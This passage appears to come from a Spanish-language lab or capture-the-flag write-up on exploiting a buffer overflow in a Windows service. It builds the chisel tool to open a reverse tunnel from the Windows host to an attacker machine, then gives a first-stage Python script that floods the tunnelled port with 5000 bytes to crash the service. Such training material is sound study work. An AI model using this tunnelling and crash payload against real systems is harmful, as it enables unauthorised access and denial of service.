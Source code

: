     ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go build -ldflags "-w -s" .
    upx chisel
    chmod +x chisel
    ./chisel server --reverse --port 1234
    ```

1. En la maquina Windows

    ```bash
    ./chisel.exe client 192.168.0.16:1234 R:8888:127.0.0.1:8888
    ```

### Script en pyton para ejecutar el BufferOverflow {-}

En la maquina de atacante, nos creamos un script en python que nos permitte ejecutar el BufferOverflow. Este Script ira evolucionando
durante las etapas.

#### Etapa 1 : Denial Of Service {-}

El BufferOverflow viene de un error de sanitizacion durante el envio de una data que se espera a recivir un tamanio definido de data y sobre el
cual si un atcante decide enviarle mas data de lo previsto, hace petar el servicio. En el siguiente script vamos a enviar al servicio unas 5000 **A**
de data para ver si el servicio cae.

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    payload = b"A" * 5000

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```
